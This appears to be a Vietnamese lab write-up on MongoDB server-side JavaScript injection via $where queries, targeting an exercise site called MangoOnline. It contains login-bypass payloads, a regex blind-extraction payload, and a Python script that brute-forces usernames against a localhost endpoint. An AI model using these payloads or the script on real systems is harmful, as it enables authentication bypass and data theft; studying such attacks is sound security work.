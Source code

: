 1. **Lý thuyết về Server-Side JavaScript Injection**:
   - **JavaScript Injection** là loại tấn công đặc trưng trong NoSQL, trong đó kẻ tấn công có thể thực thi JavaScript tùy ý trên máy chủ trong ngữ cảnh của cơ sở dữ liệu.
   - Với SSJI, nếu ứng dụng sử dụng `$where` trong truy vấn MongoDB mà không kiểm tra đầu vào, kẻ tấn công có thể lợi dụng để bỏ qua xác thực hoặc thao tác với dữ liệu theo ý muốn.
   
   **Ví dụ**:
   ```javascript
   db.users.find({
       $where: "this.username == \"" + req.body['username'] + "\" && this.password == \"" + req.body['password'] + "\""
   });
   ```
   - Trong trường hợp này, kẻ tấn công có thể chèn `" || ""==""` vào `username` và `password`, để truy vấn luôn trả về `True` và trả về mọi tài liệu trong `users`.

2. **Bỏ qua xác thực trong MangoOnline**:
   - Trang MangoOnline chỉ có một biểu mẫu đăng nhập. Bằng cách gửi yêu cầu đăng nhập với `username` được đặt là `" || true || ""==""` và mật khẩu bất kỳ, truy vấn sẽ luôn trả về `True`.
   
   **Truy vấn bị khai thác**:
   ```javascript
   db.users.find({
       $where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
   });
   ```
   - Điều này dẫn đến kết quả: đăng nhập thành công mà không cần biết thông tin đăng nhập chính xác.

3. **Khai thác Blind Data Extraction với SSJI**:
   - Mặc dù bỏ qua xác thực, ứng dụng không hiển thị `username` của tài khoản đăng nhập thành công. Để trích xuất `username`, ta có thể thực hiện các bước như **Blind Data Extraction** đã nêu, nhưng sử dụng cú pháp SSJI khác.

4. **Tự động trích xuất `username`**:
   - **Kiểm tra ký tự đầu tiên**:
     - Bắt đầu với truy vấn `username` để kiểm tra ký tự đầu tiên là gì. Sử dụng `" || (this.username.match('^H.*')) || ""=="` để xác nhận `username` bắt đầu bằng `H`.
   - **Tiếp tục dò ký tự tiếp theo**:
     - Lặp lại quy trình bằng cách thêm từng ký tự vào regex và dò dần `username` cho đến khi thu được chuỗi đầy đủ.
   
   **Mẫu script tự động hóa dò tìm**:
   ```python
   import requests
   import json

   # Hàm gửi yêu cầu để kiểm tra điều kiện SSJI
   def oracle(payload):
       r = requests.post(
           "http://127.0.0.1/index.php",
           headers={"Content-Type": "application/json"},
           data=json.dumps({"username": payload, "password": "anyPassword"})
       )
       return "Welcome" in r.text  # Giả sử phản hồi chứa "Welcome" khi đăng nhập thành công

   # Tự động dò tìm username
   username = ""
   for _ in range(10):  # Giả sử username dài 10 ký tự
       for c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
           payload = f'" || (this.username.match("^{username}{c}.*")) || ""=="'
           if oracle(payload):
               username += c
               print("Current username:", username)
               break

   print("Extracted username:", username)
   ```
